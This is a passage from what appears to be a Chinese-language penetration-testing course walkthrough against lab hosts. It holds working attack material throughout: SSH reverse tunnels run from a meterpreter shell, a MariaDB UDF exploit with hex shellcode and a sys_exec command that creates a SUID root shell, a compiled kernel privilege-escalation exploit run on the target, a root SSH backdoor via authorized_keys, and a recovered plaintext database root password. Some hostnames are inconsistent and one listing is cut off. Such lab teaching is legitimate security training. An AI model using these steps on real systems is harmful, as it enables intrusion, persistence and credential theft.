接下来，我们想要忽略用户提供的任何命令。这可以通过 ssh 的 `command` 选项完成。我们还想使用 `no-agent-forwarding` 和 `no-X11-forwarding` 选项来阻止 agent 和 X11 转发。最后，我们想要使用 `no-tty` 选项来阻止用户分配 tty 设备。Kali 上最终的 `~/.ssh/authorized_keys` 文件可以在列表 897 中找到。

```
from="10.11.1.250",command="echo 'This account can only be used for port forwarding'", no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAgQxC02TJEsuXiHqoUub4j9o/IPhxsPgi+fLFLPWK4n6pK02X5smFlHjAhyHUr4auFhSnF2gJhNaN2Z4DjkfZF950570X3m0oaEuGweHtZcwIMNLJiHzfS70blRg+Z23ka+jyM8ZtIO/ENC68Pj+NHtWic2So95AwAwC/Hkb7kZixNo6fervcgVaXykjWZc8BXxYkGdOLutSc58B++gh3sPOPI/DkOrS05/wJNCnB12L/ex/d021OmCLGeAzv2IIR9xk87xVdiih58By513s+2XOrHzabddS7MwgFz16Coo+bHbT86PFF9ZLZm9O/USZLoqHx57oXNq6LbLTra4I/MD n1nwe-datalaaja
```

列表 897 Kali 上的 `~/.ssh/authorized_keys` 文件

此条目允许私钥所有者（Web 服务器）登录到我们的 Kali 机器，但阻止他们运行命令，并且仅允许进行端口转发。

接下来，我们需要向我们的 ssh 命令添加另外两个选项以确保其正常工作。首先，我们需要添加 `-N` 标志以指定我们不运行任何命令。我们还需要 `-f` 选项以请求 ssh 转到后台。最后，我们还需要通过 `-i` 提供我们使用的密钥文件。

最终的 SSH 命令可以在列表 898 中找到。

```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/nul" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4
```

列表 898 ssh 命令的最终迭代

最后，我们需要在 meterpreter shell 中运行 SSH 命令。

```
ssh -f -N -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@10.11.0.4

Could not create directory '/var/www/.ssh'。

Warning: Permanently added '10.11.0.4'(ECDSA) to the list of known hosts.
```

列表 899 执行 ssh 命令的最终迭代

现在让我们验证一下我们的 Kali 机器上的端口是否开放：

```
kali@kali:~$ sudo netstat -tulpn

Active Internet connections (only servers)

Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name

tcp 0 0 0.0.0.0:111 0.0.0.0:* LISTEN 1/systemd

tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 645/sshd

tcp 0 0 127.0.0.1:13306 0.0.0.0:* LISTEN 91364/sshd: kali

tcp 0 0 127.0.0.1:1122 0.0.0.0:* LISTEN 91364/sshd: kali

tcp6 0 0 :::111 :::* LISTEN 1/systemd

tcp6 0 0 :::22 :::* LISTEN 645/sshd

tcp6 0 0 ::1:13306 :::* LISTEN 91364/sshd: kali

tcp6 0 0 ::1:1122 :::* LISTEN 91364/sshd: kali
```

列表 900 验证开放端口

此时，由于 ssh 命令是在后台运行的，即使我们的 meterpreter shell 终止，我们也通过远程隧道拥有对数据库服务器的远程访问权限。

### 24.3 针对数据库

Web 应用程序通常在另一台服务器上配置数据库，沙箱本地环境就是这样做的。然而，在这一点上，我们可以访问数据库主机，并且总体上可以将其视为与我们在同一网络中。一如既往，对于隧道连接，我们应该预期会有些延迟。

### 24.3.1 信息收集

在数据库信息收集步骤的这个阶段，我们已经知道了几件事。由于能够访问 WordPress 服务器，我们知道该主机与我们当前所在的网络不同。我们还知道我们正在运行 MariaDB 版本 10.3.20。快速的谷歌搜索显示这是一个相当新的版本。这带来了一个问题，因为新版本很可能没有导致远程代码执行（RCE）的漏洞。

让我们连接到数据库，并开始收集 MariaDB 的其他方面信息。

#### 24.3.1.1 应用程序/服务信息收集

为了连接到 MariaDB，我们可以使用 Kali 内置的 MySQL 客户端以及我们从 WordPress 配置文件中恢复的凭据。虽然 MariaDB 和 MySQL 是不同的软件包，但它被设计为向后兼容。[^1] 我们还需要将 MySQL 客户端指向 Kali 上运行在 13306 端口上的隧道。

```bash
kali@kali:~$ mysql --host=127.0.0.1 --port=13306 --user=wp -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 12
Server version: 10.3.28-MariaDB-log
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]>
```

列表 901 - 连接到 MariaDB

既然我们已经连接上了，我们可以查看一下作为 `wp` 用户我们拥有哪些权限，并更好地了解这个 MariaDB 实例是如何配置的。

```sql
MariaDB [(none)]> SHOW GRANTS;
+------------------+---------------------------------------+
| Grants for wp@%   |                                      |


```
+------------------+---------------------------------------+

| GRANT USAGE ON *.* TO 'wp'@'%' IDENTIFIED BY PASSWORD

  '*61163AE4B131AB0E43F07BE7B'   |

| GRANT SELECT, INSERT, UPDATE, DELETE ON `wordpress`.*

  TO 'wp'@'%'    |  

+------------------+---------------------------------------+

2 rows in set (0.075 sec)
```

### 列表 902 - wp 用户的权限

我们并没有拥有`*`（所有）权限，但 `SELECT`、`INSERT`、`UPDATE` 和 `DELETE` 是一个很好的起点。接下来，让我们查看一些变量，看看是否能找到任何突出的东西。

```sql
MariaDB [(none)]> show variables;
+------------------------------------------------------------+
| Variable_name | Value   |  
+------------------------------------------------------------+
| alter_algorithm | DEFAULT |
| aria_block_size | 8192 |
| aria_checkpoint_interval | 30 |
...
| hostname | zora |
| identity | 0 |
...
| pid_file | /run/mysql/mariadb.pid |
| plugin_dir | /home/dev/plugin/ |
| plugin_maturity | gamma |
| port | 3306 |
| preload_buffer_size | 32768 |
| profiling | OFF |
...
| tmp_memory_table_size | 16777216 |
| tmp_table_size | 16777216 |
| tmpdir | /var/tmp |
| transaction_alloc_block_size | 8192 |
...
| userstat | OFF |
| version | 10.3.28-MariaDB |
| version_comment | MariaDB Server |
| version_compile_machine | x86_64 |
| version_compile_os | Linux |
| version_malloc_library | system |
...
| wsrep_sst_receive_address | AUTO |
| wsrep_start_position | 00000000-0000-0000-0000-000000000000: |
| wsrep_sync_wait | 0 |
| 639 rows in set (0.154 sec) |
```

### 列表 903 - 显示所有变量

从这一个查询中，我们学到了几件事。首先，我们发现主机名是“zora”。从这一点开始，我们将把 MariaDB 主机称为 Zora。接下来，我们还了解到 `tmp` 目录位于 `/var/tmp`。我们再次确认正在运行 MariaDB 版本 10.3.28，但我们也得知目标架构是 `x86_64`。我们可以收集到的最有趣的信息是 `plugin_dir` 被设置为 `/home/dev/plugin/`。这个目录对于 MariaDB 来说并不是标准的。让我们记下这一点，因为它可能稍后会有用。

既然我们已经收集了一些信息，让我们看看是否能找到针对我们的目标 MariaDB 版本的任何利用程序。

```bash
kali@kali:~$ searchsploit mariadb
```

| 利用程序标题 | 路径 (`\usr/share/exploitdb/`) |
|---|---|
| MariaDB Client 10.1.26 - Denial of Service (PoC) | exploits/linux/dos/45901.txt |
| MySQL / MariaDB - Geometry Query Denial of Service | exploits/linux/dos/38392.txt |
| MySQL / MariaDB / PerconaDB 5.5.51/5.6.32/5.7.14 - Co... | exploits/linux/local/40360.txt |
| MySQL / MariaDB / PerconaDB 5.5.x/5.6.x/5.7.x - 'mysq... | exploits/linux/local/40678.c |
| MySQL / MariaDB / PerconaDB 5.5.x/5.6.x/5.7.x - 'root... | exploits/linux/local/40679.sh |
| Oracle MySQL / MariaDB - Insecure Salt Generation Sec... | exploits/linux/remote/38109.pl |

Shellcodes: No Result
Papers: No Result

### 列表 904 - SearchSploit 搜索 MariaDB

不幸的是，这些都不适用于我们的 MariaDB 版本。让我们扩大范围，看看 MySQL 能给我们什么。

```bash
kali@kali:~$ searchsploit mysql
```


# 利用程序标题

| 利用程序标题 | 路径 (`\usr/share/exploitdb/`) |
|---|---|
| MySQL (Linux) - Database Privilege Escalation | `exploits/linux/local/23077.pl` |
| MySQL (Linux) - Heap Overrun (PoC) | `exploits/linux/local/23076.pl` |
| MySQL (Linux) - Stack Buffer Overrun (PoC) | `exploits/linux/dos/23075.pl` |
| MySQL 3.x/4.x - ALTER TABLE/RENAME Forces Old Permi... | `exploits/linux/remote/24669.txt` |
| MySQL 4.0/4.1 (Linux) - User-Defined Function (UDF)... | `exploits/linux/local/11181.c` |
| MySQL 4.1.18/5.0 - Auth - Local/Remote Information Leak | `exploits/linux/remote/1742.c` |
| MySQL 4.1/5.0 - Authentication Bypass | `exploits/multiple/remote/24250.pl` |
| MySQL 4.1/5.0 - Zero-Length Password Authentication | `exploits/multiple/remote/311.pl` |
| MySQL 4.x - CREATE FUNCTION Arbitrary libc Code Exe... | `exploits/multiple/remote/25209.pl` |
| MySQL 4.x - CREATE FUNCTION mysql.func Table Arbitr... | `exploits/multiple/remote/25210.php` |
| MySQL 4.x - CREATE Temporary TABLE SymLink Priviled... | `exploits/multiple/remote/25211.c` |
| MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) | `exploits/linux/local/1518.c` |
| MySQL 4.x/5.0 (Windows) - User-Defined Function Com... | `exploits/windows/remote/2374.txt` |
| MySQL 4/5 - Server Date_Format Denial of Service | `exploits/linux/dos/28234.txt` |
| MySQL 4/5 - SUID Routine Miscalculation Arbitrary D... | `exploits/linux/remote/28398.txt` |
| MySQL 4/5/6 - UDF For Command Execution | `exploits/linux/local/7856.txt` |
| MySQL 5 - Command Line Client HTML Special Character... | `exploits/linux/remote/32445.txt` |
| MySQL 5.0.18 - Query Logging Bypass | `exploits/linux/remote/27326.txt` |
| MySQL Squid Access Report 2.1.4 - HTML Injection | `exploits/php/webapps/20955.txt` |
| MySQL Squid Access Report 2.1.4 - SQL Injection / C... | `exploits/php/webapps/44483.txt` |
| MySQL User-Defined (Linux) (x32/x86_64) - 'sys'... | `exploits/linux/local/46249.py` |
| MySQL yaSSL (Linux) - SSL Hello Message Buffer Over... | `exploits/linux/remote/16849.rb` |
| MySQL yaSSL (Windows) - SSL Hello Message Buffer Ov... | `exploits/windows/remote/16701.rb` |

# 论文标题

| 论文标题 | 路径 (`\usr/share/exploitdb-papers`)/ |
|---|---|
| MySQL Session Hijacking over RFI | `docs/english/13708-mysql-session-hijacking-ove...` |
| MySQL UDF Exploitation | `docs/english/44139-mysql-udf-exploitation.pdf` |
| MySQL: Secure Web Apps - SQL Injection | `papers/english/12945-mysql-secure-web-apps-s...` |
| Nobel contributions to the field - Ho... | `docs/english/40143-nobel-contributions-to-the-...` |

# 列表 905 - SearchSploit 搜索 MySQL

在搜索 MySQL 漏洞时，我们必须稍微改变一下方法。这一次，我们不是在寻找可能容易受到某个利用程序攻击的确切版本号，因为 MariaDB 和 MySQL 使用不同的版本号。相反，我们试图通过识别公开披露的利用程序中的模式，来判断我们是否可以使用某种类型的攻击。

我们注意到"`UDF`"和"`User Defined`"这两个词经常出现。让我们看看在 `/usr/share/exploitdb/exploits/linux/local/46249.py` 中发现的一个较新的 UDF 利用程序。

```python
# Exploit Title: MySQL User-Defined (Linux) x32 / x86_64 sys_exec function local privilege escalation exploit

# Date: 24/01/2019

...

References:

    https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html

    https://www.exploit-db.com/exploits/1518

    https://www.exploit-db.com/papers/44139/ = MySQL UDF Exploitation by Osanda Malith Jayathissa (@OsandaMalith)
```

该利用程序一开始就引用了关于 UDF 利用的其他研究，包括一篇就此主题撰写的论文。

审阅这篇论文教会我们，用户定义函数（UDF）类似于 MySQL 的自定义插件。它允许数据库管理员创建可重用的自定义函数以实现特定目标。对我们来说很方便的是，UDF 是用 C 或 C++[^2] 编写的，并且可以运行我们想要的几乎任何代码，包括系统命令。

研究人员发现了如何使用标准的 MySQL（以及 MariaDB）功能以可以利用系统的方式创建这些插件。这个特定的利用程序讨论了使用 UDF 作为提升主机权限的方式。然而，我们应该能够使用相同的原则来获取初始 shell。需要进行一些修改，但在我们开始更改任何东西之前，让我们先看看代码。

```python
shellcode_x32 = "7f454c460101010000000000000000...";

shellcode_x64 = "7f454c46020101000000000000000000...";

shellcode = shellcode_x32

if (platform.architecture()[0] == '64bit'):

    shellcode = shellcode_x64

...

cmd='mysql --u root -p\'' + password + '\'-e "select @@plugin_dir \'\''"'

plugin_str = subprocess.check_output(cmd, shell=True)

plugin_dir = re.search('(@plugin_dir: (\*))', plugin_str)

res = bool(plugin_dir)

...

    print("Trying to create a udf library...");
```


`os.system('mysql --u root -p\'' + password + '\'-e "select binary 0x' + shellcode +`

`         '_into dumpfile \'%s\' (\'\'' % udf_outfile)`');

`res = os.path.isfile(udf_outfile)`

...

`print("UDF library created successfully: %s" % udf_outfile);`

[^1]: (MariaDB, 2020). https://mariadb.com/kb/en/library/mariadb-vs-mysql-compatibility/
[^2]: (MariaDB, 2020), https://mariadb.com/kb/en/create-function-udf/


```
100 print "Trying to create sys_exec..."
101 os.system('mysql -u root -p\' + password + '\' -e "create function sys_exec returns int soname \'%s\'"')
102
103 print "Checking if sys_exec was created..."
104 cmd='mysql -u root -p\' + password + '\' -e "select * from mysql.func where name=\'sys_exec\' \G"'
105 res = subprocess.check_output(cmd, shell=True);
...
111 if res:
112 print "sys_exec was found: %s" % res
113 print "Generating a suid binary in /tmp/sh..."
114 os.system('mysql -u root -p\' + password + '\' -e "select sys_exec(\'cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh\')"')
115 print "Trying to spawn a root shell..."
116 pty.spawn("/tmp/sh")
```
Listing 907 - MySQL exploit 46249

我们首先注意到的是在第 40-45 行定义的一个 `shellcode` 变量。第 71 行的 SQL 查询获取了插件目录（请记住，这是在 Zora 上发现非标准的变量）。接着，在第 92 行，代码将 `shellcode` 二进制内容转储到插件目录内的一个文件中。第 101 行创建一个名为 `sys_exec` 的函数，利用上传的二进制文件。最后，脚本在第 104 行检查该函数是否成功创建，如果是，则在第 113 行执行该函数。进一步阅读关于 MySQL `CREATE FUNCTION` 语法 $^{\text{732}}$ 的资料表明，`shellcode` 变量的二进制内容应该是一个实现了我们希望在数据库中创建的函数并导出该函数的共享库。

本质上，整个脚本仅执行五条命令。如果我们将其缩减为基本的 MySQL 命令，我们会得到以下内容：

```
select @plugin_dir;
select binary @shellcode into dumpfile @plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G;
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh');
```
Listing 908 - Breakdown of MySQL exploit

由于我们已经在交互式 MariaDB shell 中，理论上我们可以直接在针对 Zora 的 MariaDB shell 中运行这些命令。然而，我们希望确保在继续之前理解我们将要执行的内容。

#### 24.3.2 尝试利用数据库

虽然单独的命令没有引起我们的担忧，但我们不知道 `shellcode` 在做什么。相反，我们将使用我们自己可控的内容替换 `shellcode`。漏洞利用中的参考指出使用了 `raptor.udf.c`。快速谷歌搜索发现了一个相关的 Exploit Database 条目 $^{\text{733}}$，且评论底部的一个注释提到了一个看起来非常有前途的 GitHub 项目 $^{\text{734}}$。

让我们下载代码，审查它并编译它。

```
kali@kali:~$ git clone https://github.com/mysqludf/lib_mysqludf_sys.git
Cloning into 'lib_mysqludf_sys'...
...
kali@kali:~$ cd lib_mysqludf_sys/
kali@kali:~/lib_mysqludf_sys$
```
Listing 909 - Downloading the code from GitHub

打开 `lib_mysqludf_sys.c` 文件，我们看到了一个相当标准的 UDF 库，它允许通过 C/C++ 系统函数执行系统命令。$^{\text{735}}$

```
...
my_ulonglong sys_exec(
      UDF_INIT *initid
    ,  UDF_ARGS *args
    ,  char *is_null
    ,  char *error
){
    return system(args->args[0]);
}
...
```
Listing 910 - The sys_exec UDF function implementation

此外，根据代码，编译后共享库导出的函数名为 `sys_exec`，与之前的漏洞利用相同。我们需要创建一个同名的 MySQL 函数，以便从数据库执行系统命令。

既然已经审查了代码，我们将编译共享库。

查看 `install.sh` 文件，作为编译的前提条件，我们需要安装 `libmysqlclient15-dev`。在 Kali Linux 中，这是 `default-libmysqlclient-dev` 包，可以通过 `apt` 安装。

```
kali@kali:~/lib_mysqludf_sys$ sudo apt update && sudo apt install default-libmysqlclient-dev
```
Listing 911 - Installing dependencies

既然依赖项已安装，我们需要在生成新文件之前删除旧的目标文件。

```
kali@kali:~/lib_mysqludf_sys$ rm lib_mysqludf_sys.so
```
Listing 912 - Removing the pre-built binary

查看 `Makefile`，我们需要做一些小的调整，以确保能够正确编译源文件。

```
LIBDIR=/usr/lib
install:
    gcc -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o ${LIBDIR}/lib_mysqludf_sys.so
```
Listing 913 - UDF library Makefile

具体来说，我们需要调整 `gcc` 命令的包含目录路径，因为我们的 Kali 系统上安装的是 MariaDB 而不是 MySQL。Makefile 的更改如清单 914 所示。

```
kali@kali:~/lib_mysqludf_sys$ cat Makefile
LIBDIR=/usr/lib
install:
    gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so
kali@kali:~/lib_mysqludf_sys$ make
```


```gcc -Wall -I/usr/include/mariadb/server -I/usr/include/mariadb/ -I/usr/include/mariadb/server/private -I. -shared lib_mysqludf_sys.c -o lib_mysqludf_sys.so```

### Listing 914 - Compiling the UDF library

```*-Wall* 标志启用 gcc 的所有警告消息，而 *-I* 包含头文件所在的目录。清单 914 中命令包含的列表是 MariaDB 头文件的常见位置。*-shared* 标志告诉 gcc 这是一个共享库，并生成一个共享对象文件。最后，*-o* 告诉 gcc 将文件输出到哪里。```

回想 UDF 漏洞利用中的 SQL 命令，为了将共享库传输到目标数据库服务器，我们需要该文件的十六进制转储。

```
select @@plugin_dir;

select binary 0xshellcode into dumpfile @@plugin_dir;

create function sys_exec returns int soname udf_filename;

select * from mysql.func where name='sys_exec' \G;

select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh');
```

### Listing 915 - Breakdown of MySQL exploit

为此，我们可以使用以下命令：

```
kali@kali:~/lib_mysqludf_sys$ xxd -p lib_mysqludf_sys.so | tr -d ' \n' > lib_mysqludf_sys.so.hex
```

### Listing 916 - Creating a hexdump of the Library


`xxd` 命令用于创建十六进制转储，`-p` 标志输出纯十六进制转储，这使得后续处理更加容易。我们使用 `tr` 删除换行符，然后将输出内容转储到一个名为 `lib_mysqludf_sys.so.hex` 的文件中。

`lib_mysqludf_sys.so.hex` 文件的内容将作为我们的 shellcode。

我们现在拥有尝试利用 Zora 所需的一切。现在只需要将它们整合在一起。在开始运行恶意 SQL 命令之前，我们将在 MariaDB 中为 shellcode 创建一个变量。该变量的内容来自 `lib_mysqludf_sys.so.hex` 文件。

```
MariaDB [(none)]> set @shell = 0x7f454c4262110000000000000000000302c0010000001100000000040000000000000000000053c560000000000000000000400035809004001c001b0001000000040000000000000...00000000000000000000000000000000;
```

### Listing 917 - Creating a 64 bit shellcode variable

注意在 shellcode 开头添加了“0x”且没有单引号或双引号。这是为了让 MariaDB 将文本读取为二进制所必需的。接下来，按照漏洞利用说明，我们将确认插件目录的位置。

```
MariaDB [(none)]> select @plugin_dir;

+---------------------+

| @plugin_dir         |

+---------------------+

| /home/dev/plugin/   |

+---------------------+

1 row in set (0.072 sec)
```

### Listing 918 - Verifying the plugin_dir

正如预期的那样，插件目录位于 `/home/dev/plugin/`。接下来，我们需要将 shellcode 输出到 Zora 上的文件中。原始漏洞利用会为此生成一个随机文件名，但我们可以随意命名。清单 919 中的命令告诉 MariaDB 将 `@shell` 变量的内容视为二进制，并将其输出到 `/home/dev/plugin/udf_sys_exec.so` 文件。

```
MariaDB [(none)]> select binary @shell into dumpfile '/home/dev/plugin/udf_sys_exec.so';

ERROR 1045 (28000): Access denied for user 'wp'@'%' (using password: YES)

MariaDB [(none)>
```

### Listing 919 - Dumping the shell to a file

不幸的是，这是我们遇到的第一个问题。根据上面的错误信息，`wp` 用户没有创建文件的权限。

### 24.3.2.2 为什么我们失败了

虽然该用户有权运行 `SELECT`、`INSERT`、`UPDATE` 和 `DELETE`，但 `wp` 用户缺少允许运行 `dumpfile` 的 `FILE` 权限。[^736] 要运行 `dumpfile`，我们需要一个权限级别更高的用户帐户，例如 root 用户。如果没有这个权限，我们就被困住了，无法使用当前方法继续利用 Zora。第一个合乎逻辑的选择是回到 Aja，看看我们是否能找到 root（或类似权限的）MariaDB 凭据。

[^732] (Oracle Corporation, 2020), https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html
[^733] Exploit Database 条目
[^734] GitHub 项目
[^735] C/C++ 系统函数
[^736] (MariaDB, 2020, https://mariadb.com/kb/en/library/grant/)

## 24.4 对 Web 应用服务器的更深层枚举

在这一轮枚举中，我们的目标是找到一些能提高我们访问 Zora 的 MariaDB 服务权限级别的方法。虽然我们可以继续使用当前用户 `www-data` 对 Aja 进行枚举，但我们认为更高的权限级别会非常有帮助。因此，我们将首先将枚举重点放在权限提升上，然后继续寻找凭据。为了寻找权限提升向量，我们需要回到 Aja 上的 Metasploiter Shell。

### 24.4.1 更彻底的后期利用

之前我们知道，Aja 运行在 Ubuntu 16.04 上，这是一个相对较新的版本。这意味着找到内核漏洞利用程序的可能性比旧版本要小。然而，我们不应该完全排除这种可能性。

在枚举了运行中的进程、系统服务和已安装的应用程序后，我们发现除了 WordPress 安装之外，Ubuntu 服务器似乎只运行默认的服务和应用程序。这看起来并不乐观。为了完成应用程序和服务评估，我们运行 `netstat` 以确定可能打开的其他端口。

```text
meterpreter > shell

Process 6792 created.

Channel 3 created.

netstat -tulnp

(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)

Active Internet connections (only servers)

Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name

tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -

tcp6 0 0 :::80 :::* LISTEN -

tcp6 0 0 :::22 :::* LISTEN -

udp 0 0 0.0.0.0:67 0.0.0.0:*
```

### Listing 920 - 在 Aja 上运行 netstat

不幸的是，Listing 920 中的输出也没有揭示任何有趣的信息。此时，开始查看内核漏洞利用程序是个好主意。但首先，我们需要找出目标正在运行哪个内核版本。

```text
uname -a

Linux aja 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64
```


x86_64 GNU/Linux

```
Listing 921 - 在 Aja 上运行 uname
```

既然我们有了内核版本，我们将返回 `searchsploit`。

```text
kali@kali:~$ searchsploit ubuntu 16.04

Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PA | exploits/linux/x86-64/local/

Linux Kernel 4.4.0-21 (Ubuntu 16.04 x64) - 'Netfilter ta | exploits/linux/x86-64/local/

Linux Kernel 4.4.0-21 < 4.4.0-51 (Ubuntu 14.04/16.04 x8 | exploits/linux/local/41770.c

Linux Kernel 4.4.x (Ubuntu 16.04) - 'double-fput()' bp | exploits/linux/local/39772.t

Linux Kernel 4.6.2 (Ubuntu 16.04.1) - 'IP6T_SO_SET_REPL | exploits/linux/local/40489.t

Linux Kernel 4.8 (Ubuntu 16.04) - Leak scfp Kernel Poin | exploits/linux/dos/45919.c

Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Loca | exploits/linux/local/45010.c

Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privi | exploits/linux/local/44298.c

...
```

Listing 922 - 搜索 ubuntu 16.04 漏洞利用程序

虽然其中许多看起来可能有效，但其中一个特别引起了我们的注意。在审查了漏洞利用程序 `45010` 的源代码[^1] 后，我们发现它编写精良，针对多个不同的内核版本进行了测试，并且具有出色的编译和执行说明。首先，让我们查明 Ajla 是否有 `gcc`。

> 对于漏洞利用程序来说，内核版本并不总是必须完全匹配才能工作。在这种情况下，该漏洞利用程序是在内核 4.13.9 上测试的，这比 Ajla 上的内核更新。

```text
gcc
/bin/sh: 1: gcc: not found

find / -name gcc -type f 2>/dev/null

/usr/share/bash-completion/completions/gcc
```

Listing 923 - 尝试在 Ajla 上定位 GCC

不幸的是，Ajla 没有安装 `gcc` 二进制文件，因此我们需要在 Kali 机器上编译漏洞利用程序，将其传输到 Ajla，并希望它仍然有效。或者，如有必要，我们还可以创建一个与我们目标系统在操作系统和内核版本上相同的虚拟机，并在其上编译漏洞利用程序。

[^1]: (Offensive Security, 2020), https://www.exploit-db.com/exploits/45010

#### 24.4.2 权限提升

首先，我们将漏洞利用程序复制到我们的 `home` 目录，以免更改原始版本。复制完成后，我们将按照文件中的编译说明进行操作。

```text
kali@kali:~$ cp /usr/share/exploitdb/exploits/linux/local/45010.c ./
kali@kali:~$ gcc 45010.c -o 45010
kali@kali:~$
```

Listing 924 - 编译漏洞利用程序

漏洞利用程序编译没有错误，因此我们将使用 meterpreter 将其上传到 Ajla。

```text
meterpreter > upload /home/kali/45010 /tmp/
[*] uploading   : /home/kali/45010 -> /tmp/
[*] uploaded    : /home/kali/45010 -> /tmp/45010
```

Listing 925 - 上传漏洞利用程序

最后，是时候对 Ajla 运行漏洞利用程序了。

```text
meterpreter > shell
Process 1546 created.
Channel 5 created.
cd /tmp
chmod +x 45010
./45010
whoami
root
```

Listing 926 - 运行漏洞利用程序

在 Listing 926 中，漏洞利用程序没有给出任何输出，但运行 `whoami` 告诉我们现在是以 root 用户身份运行。既然我们获得了 root 访问权限，我们可以使用 `ssh` 创建一个更稳定的后门。这将允许我们在 meterpreter 会话死亡时返回 Ajla。

首先，我们需要在 Kali 机器上生成一个新的 ssh 密钥。

*如果你已经生成了 ssh 密钥，可以跳过此步骤。*

```text
kali@kali:~$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/kali/.ssh/id_rsa.
Your public key has been saved in /home/kali/.ssh/id_rsa.pub.
...
kali@kali:~$ cat ~/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAAADAQABAAAAbQD... kali@kali
```

Listing 927 - 在 Kali 上生成 SSH 密钥

生成了我们的 ssh 密钥后，我们可以在 Ajla 上创建 `authorized_keys` 文件以接受我们的公钥。我们将通过拥有 root shell 的 meterpreter 会话执行此操作。

```text
mkdir /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAAADAQABAAAAbQD... kali@kali" > /root/.ssh/authorized_keys
```

Listing 928 - 将公钥添加到 /root/.ssh/authorized_keys 文件

现在在 Kali 上，我们可以使用 ssh 客户端直接连接到 Ajla。

```text
kali@kali:~$ ssh root@sandbox.local
Welcome to Ubuntu 16.04 LTS (GNU/Linux 4.4.0-21-generic x86_64)
...
root@ajla:~#
```

Listing 929 - 使用 ssh 登录到 Ajla

### 24.4.3 搜索数据库凭据

在寻找凭据时，我们必须像管理员或开发人员那样思考。你会在哪里存储凭据？凭据是如何使用的？是否有历史记录或日志文件可能意外保存了凭据？

一个例子是，如果服务器用户在用户名字段中错误地输入了密码，这可能会被记录在 `/var/log/auth.log` 中。让我们像管理员一样思考，查看可能包含用户信息的位置。

我们首先查看 `/etc/passwd`、`/etc/group` 和 `/etc/shadow`，以了解有多少用户和组可以访问目标系统。

然而，我们获得的唯一有用信息是存在一个名为 "ajla" 的用户。让我们检查用户的家目录，看看我们能找到什么。

```text
root@ajla:~# cd /home/ajla
root@ajla:/home/ajla# ls -alh
total 32K
drwxr-xr-x 3 ajla ajla 4.0K Dec 10 16:37 .
drwxr-xr-x 3 root root 4.0K Dec 10 16:22 ..
-rw------- 1 ajla ajla   15 Dec 10 16:40 .bash_history
-rw-r--r-- 1 ajla ajla  220 Oct 15 17:49 .bash_logout
-rw-r--r-- 1 ajla ajla 3.7K Oct 15 17:49 .bashrc
drwx------ 2 ajla ajla 4.0K Oct 15 17:52 .cache
-rw-r--r-- 1 ajla ajla  675 Oct 15 17:49 .profile
```


`-rw-r--r-- 1 ajla ajla    0 Oct 15 17:57 .sudo_as_admin_successful`

### Listing 930 - 查看 Ajla 的家目录

我们在主目录中没有找到太多东西，但让我们看看 `.bash_history`，看看他们做了什么。

```text
root@ajla:/home/ajla# cat ./.bash_history
sudo poweroff
```

Listing 931 - 查看 Ajla 的 `.bash_history`

这很有趣。相当空的病史意味着该账户使用不多。服务器一定经过了某种管理，但我们没有在系统中看到其他用户。让我们检查一下 root 用户的历史记录。

```text
root@ajla:/home/ajla# cat ~/.bash_history
pwd
ls
cd ./var/log/apache2/
tail -f error.log
tail -f access.log
mysql -u root -pBMuDu9xUHKfe3fZIz7RdMBeB -h 10.5.5.11 -e 'DROP DATABASE wordpress;'
cd ./etc/mysql/
ls
cd ~/ 
ls
ls -alh
exit
```

### 24.5 再次针对数据库

现在我们已经获取了 Zora 上 MariaDB 实例的 root 数据库凭据。让我们回过头来，尝试使用这些新的、更高权限的权限再次执行 UDF 利用。

#### 24.5.1 利用

作为提醒，我们试图针对 MariaDB 实例运行的五个命令位于清单 933 中。

**清单 933 - MySQL 利用分解**

```sql
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec';
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

首先，我们将重新运行 MariaDB 客户端，但这次我们将使用在 Ajla 上发现的 root 凭据。

**清单 934 - 重新运行 MariaDB 客户端**

```bash
kali@kali:~$ mysql --host=127.0.0.1 --port=13306 --user=root -p
Enter password:
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
MariaDB [(none)]>
```

接下来，我们将把 `*shell*` 变量设置为我们之前生成的 shellcode。

**清单 935 - 创建 64 位 shellcode 变量**

```sql
MariaDB [(none)]> set @shell = 0x7f454c4682610800000000000000000000300c0008000000110
